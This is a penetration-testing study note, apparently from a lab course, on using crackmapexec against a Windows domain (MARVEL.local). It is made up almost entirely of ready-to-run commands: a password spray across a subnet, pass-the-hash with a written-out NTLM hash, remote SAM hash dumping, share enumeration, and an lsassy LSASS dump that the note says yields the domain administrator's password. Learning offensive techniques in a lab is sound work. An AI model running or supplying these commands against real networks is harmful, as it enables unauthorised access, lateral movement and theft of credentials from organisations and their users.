 # crackmapexec

SMB module help:
```bash
crackmapexec smb --help
```

## Pass-the-password attack

Sweep the whole domain and try to login to SMB services with the specified credentials:
```bash
crackmapexec smb 10.0.0.0/24 -d MARVEL.local -u frank -p Password1
```
Output:
![[Pasted image 20240315141348.png]]
On the machines marked with *(Pwn3d!)* it was possible to login and the user is a local administrator.
(The logical next step would be to dump credentials on these machines. next section)

## Pass-the-hash attack

Pass the hash (previously captured by dumping the SAM db via ntlmrelayx) and try to login locally:
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```
Args:
`-H`: NTLM hash(es) or file(s) containing NTLM hashes
`--local-auth`: authenticate locally to each target

Output:
![[Pasted image 20240315142342.png]]

### Dump SAM database

Dump SAM db:
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam
```
Args:
`--sam`: dump SAM hashes from target systems

Output:
![[Pasted image 20240315142805.png]]

### Enumerate shares

Enumerate shares:
```bash
crackmapexec smb 10.0.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --shares
```
Args:
`--shares`: enumerate shares and access

Output:
![[Pasted image 20240315143143.png]]

## List all availabe SMB modules

List all available SMB modules:
```bash
crackmapexec smb -L
```

## SMB module lsassy

lsassy github: https://github.com/Hackndo/lsassy

Use SMB module *lsassy* (Dump lsass and parse the result remotely with lsassy):
```bash
crackmapexec smb 10.0.0.0/24 -M lsassy -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```

Output:
![[Pasted image 20240315144126.png]]
Game over: We got the domain administrator password! :D
This was possible because the domain admin did login into this machine and his credentials were still stored in the lsass process memory.

>[!Info] LSASS
>The Local Security Authority Subsystem Service (LSASS) is a Windows service responsible for enforcing the security policy on the system. It verifies users logging in, handles password changes and creates access tokens. Those operations lead to the storage of credential material in the process memory of LSASS. With administrative rights only, this material can be harvested (either locally or remotely).

## crackmapexec database

CME stores results and loot in a database.

Connect to the cme database:
```bash
cmedb
```

![[Pasted image 20240315144631.png]]

![[Pasted image 20240315144729.png]]